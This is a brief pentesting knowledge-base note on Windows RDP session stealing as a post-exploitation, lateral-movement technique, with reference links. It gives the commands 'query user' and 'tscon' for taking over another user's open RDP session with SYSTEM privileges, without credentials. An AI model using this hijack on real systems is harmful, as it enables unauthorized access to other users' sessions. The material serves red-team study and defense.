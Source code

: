 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - living-off-the-land
  - "#T1021-001"
  - network-protocols
  - rdp
  - windows
---
```

# Living off the Land

## Session Stealing

TODO: Fill the rest of conditions

> [!IMPORTANT] Conditions
> - With `NT AUTHORITY\SYSTEM` privileges you can access any **open RDP** session by any user without the credentials.


List active user sessions

```
C:\> query user
```

Steal user session to authenticate the machine remotely

```
C:\> tscon <id> /dest:<session_name>
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Enumeration and Discovery/Desktop/Windows/Host/0xA - Users/Manual/Living off the Land|Enumeration and Discovery: Users]]

### Hacktricks

- [Hacktricks: Pentesting RDP](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-rdp.html)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)